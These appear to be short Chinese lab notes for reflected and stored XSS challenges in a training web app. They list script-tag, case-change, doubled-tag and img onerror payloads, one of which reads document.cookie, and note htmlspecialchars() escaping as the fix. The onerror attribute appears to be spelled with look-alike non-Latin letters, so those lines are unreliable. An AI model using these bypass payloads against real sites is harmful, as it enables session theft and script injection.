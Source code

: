 # 反射型

##  Low  

```javascript
<script>alert('xss')</script>
```

## Midum

**大小写**或者**双写**绕过 

```javascript
<Script>alert('xss')</script>
```

```javascript
<s<script>cript>alert(document.cookie)</script>
```

## High

其他标签绕过 

```javascript
<img src="" οnerrοr="alert('xss')">
```

##  Impossible 

使用**htmlspecialchars()**函数，把相应字符转换为 **实体字符** 

# 存储型XSS

## Low 

```javascript
<script>alert('xss')</script>
```

##  Midum



```javascript
<Script>alert(/xss/)</Script>
```

## High 

```
<img src=1 οnerrοr=alert(/XSS/)>
```

## Impossible

 使用htmlspecialchars函数，把相应字符转换为实体字符